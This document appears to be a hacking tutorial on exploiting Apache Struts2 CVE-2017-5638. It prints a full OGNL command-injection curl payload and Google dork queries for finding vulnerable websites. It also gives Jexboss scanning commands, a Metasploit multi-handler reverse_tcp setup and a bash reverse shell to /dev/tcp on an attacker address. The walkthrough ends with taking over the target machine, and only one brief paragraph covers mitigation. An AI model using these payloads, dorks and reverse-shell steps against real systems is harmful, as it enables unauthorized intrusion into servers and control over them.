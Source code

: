 ## How Hackers Exploit Struts2 on Linux and Windows Servers

![thumbnail](https://raw.githubusercontent.com/neoslab/tutorials/master/thumbnails/91adb637ea66b06fd12ead9da236a201-1920x1080.jpg "Thumbnail")

**The Jakarta Multipart Parser** in **Apache Struts** 2 2.3.x before 2.3.32 and 2.5.x before 2.5.10.1 has incorrect exception handling and error-message generation during file-upload attempts, which allows remote attackers to execute arbitrary commands via a crafted "`Content-Type`", "`Content-Disposition`" or "`Content-Length`" HTTP header.

**Source:** [rapid7.com](https://www.rapid7.com/db/vulnerabilities/apache-struts-cve-2017-5638)

* * *

###### ANATOMY OF THE ATTACK

**Apache Struts Vulnerability**

Struts are vulnerable to remote command injection attacks through incorrectly parsing an attacker’s invalid "Content-Type HTTP header". The Struts vulnerability allows these commands to be executed under the privileges of the Web server.

If the "Content-Type" value isn’t valid, that is, it does not match an expected valid type, an exception is thrown that is then used to display an error message to a user. In this case, we can set the "Content-Type" to an OGNL expression such as:

```none
Content­Type: ${(#_='multipart/form­data')}...
```

**Why Does the Vuln Occur ?**

The vulnerability occurs because the Content-Type is not escaped after the error, and is then used by **LocalizedTextUtil.findText()** function to build the error message. This function will interpret the supplied message, and anything within **${…}** will be treated as an Object Graph Navigation Library (OGNL) expression and evaluated as such. The attacker can leverage these conditions to execute OGNL expressions that in turn execute system commands.

OGNL is also an expressive and extensive language in and of itself. It’s a very powerful and reliable tool for the attacker. Many core JAVA functions can be exposed, for example, **java.core.ProcessBuilder()** allows an external program to be run on the system.

Exploitation is also further facilitated by the ability to receive information back from the server on the status and output of the commands that are executed by the webserver. No additional communication channel is needed, which aids in minimizing detection and bypassing existing firewall rules.

**HTTP REQUEST WITH CURL CONTAINING CONTENT-TYPE HEADER WITH OGNL EXPRESSION.**

```none
curl https://example.com:8080/welcome.action -H "Content-Type:
%{(#_="multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)
.(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container'])
.(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))
.(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear())
.(#context.setMemberAccess(#dm)))).(#eps=#container.toString()).(#cmds=({'/bin/echo', #eps}))
.(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start())
.(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))
.(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush()))}
com.opensymphony.xwork2.inject.ContainerImpl@d0d2b00
```

The **curl** command shown above demonstrates whether the server is vulnerable or not by sending an http request with an embedded OGNL expression in the Content-Type header. The OGNL expression sets default access rights to the members of the **OgnlContext JAVA object**, which represents the execution context of the expression.

**How Do Mitigate this Vulnerability?**

Web application firewalls such as **mod_security** can mitigate the risks associated with this type of attack if rules are set to types valid content or OGNL expressions included in a blacklist. Another solution, and certainly the best one, is the **Struts2** update.

**Source:** [blog.blackducksoftware.com](https://blog.blackducksoftware.com/cve-2017-5638-anatomy-apache-struts-vulnerability)

* * *

###### GOOGLE DORK

There is no doubt that there are thousand and one ways to find vulnerable targets for this type of attack. To cut short, we are going to use a non-exhaustive list of Google Dork to demonstrate how it’s easy for a blackhat to build a list of potentially vulnerable websites.

```none
intitle:"Struts problem report" intext:"Struts has detected an Unhandled"
intitle:"Struts Problem Report" intext:"development mode is enabled."
filetype:action
filetype:do
filetype:java
filetype:out
filetype:bat
filetype:seam
filetype:sh
filetype:bson
filetype:el
filetype:pm
inurl:login.action
inurl:login.do
inurl:login.java
inurl:index.action
inurl:index.do
inurl:index.java
```

* * *

###### VULNERABILITY ANALYSIS

To detect if a host is vulnerable to the **Struts2** exploit, we can use **Jexboss**, this tool made in Python is definitively doing a great job and can help you to save precious time. The tool and exploits were developed and tested for JBoss Application Server versions v3, v4, v5, and v6\. JSF, Seam Framework, RMI over HTTP, Jenkins CLI RCE (CVE-2015-5317), Remote JMX (CVE-2016-3427, CVE-2016-8735). For more information, you can visit the [Github](https://github.com/joaomatosf/jexboss) page of the author.

**Requirements**

- Python >= 2.7.x
- urllib3
- ipaddress

**Install Jexboss on Ubuntu/Debian and other derived distributions**

```bash
git clone https://github.com/joaomatosf/jexboss.git
cd jexboss
pip install -r requires.txt
python jexboss.py -h
```

Or

```bash
# Download the latest version at: https://github.com/joaomatosf/jexboss/archive/master.zip
unzip master.zip
cd jexboss-master
pip install -r requires.txt
python jexboss.py -h
```

**Install Jexboss on Windows**

If you are using Windows, you can use the Git Bash to run the JexBoss.

- Download and install Python
- Download and install Git for Windows
- After installing, run the Git for Windows and type the following commands

```bash
PATH=$PATH:C:\Python27\
PATH=$PATH:C:\Python27\Scripts
git clone https://github.com/joaomatosf/jexboss.git
cd jexboss
pip install -r requires.txt
python jexboss.py -h
```

* * *

###### HOW TO USE JEXBOSS

**Scan single host using Jexboss**

```bash
# Type the below commands in your terminal
sudo python jexboss.py -host http://target_host:8080
```

**Scan multiple hosts using Jexboss**

```bash
# Type the below commands in your terminal
# Don't forget to replace the path with your own
sudo python jexboss.py ­-mode -file­-scan -­file /path/file/urls.txt ­-out /path/output/results.log ­­--struts2
```

* * *

###### CREATE MSF SESSION

To open a session from our targeted website, we will need to create an exploit multi-handler with **Metasploit**. This can be done very quickly using the below commands.

```bash
# Open Metasploit
msfconsole

# Type the below commands in your terminal
msf > use exploit/multi/handler
msf exploit(multi/handler) > set "YOUR-IP-ADDRESS"
msf exploit(multi/handler) > set "YOUR-LOCAL-PORT"
msf exploit(multi/handler) > set PAYLOAD linux/x86/shell/reverse_tcp
msf exploit(multi/handler) > show options
```

On the above example, we are using a Linux X86 Shell Reverse TCP payload, of course the type of payload shall be different if we are targeting a Windows machine.

* * *

###### EXPLOIT THE TARGET

We are now going to send our exploit to create a reverse shell using **Jexboss** and forward the traffic to the MSF session using TCP protocol.

**Jexboss Commands**

```bash
sudo python jexboss.py -host http://example.com/login.action --struts2
```

If **Jexboss** can inject his payload, you will need to enter the below command to establish a connection with **Metasploit**.

**Jexboss Console**

```bash
# Replace `MACHINE-IP-ADDRESS` and `MACHINE-PORT` with your own parameters
Shell> /bin/bash -i > /dev/tcp/MACHINE-IP-ADDRESS/MACHINE-PORT 0>&1 2>&1
```

**Metasploit Console**

```bash
msf exploit(multi/handler) > exploit
```

You are done! If the targeted website and/or server is vulnerable to **Struts2** exploit, a session will be created in your **Metasploit** allowing you to take over the targeted machine. For more information about this tutorial and to see a live demonstration of this type of attack, I encourage you to watch the video below.

[![video-1](https://i3.ytimg.com/vi/DY4nuIPHDYc/maxresdefault.jpg)](https://www.youtube.com/watch?v=DY4nuIPHDYc)
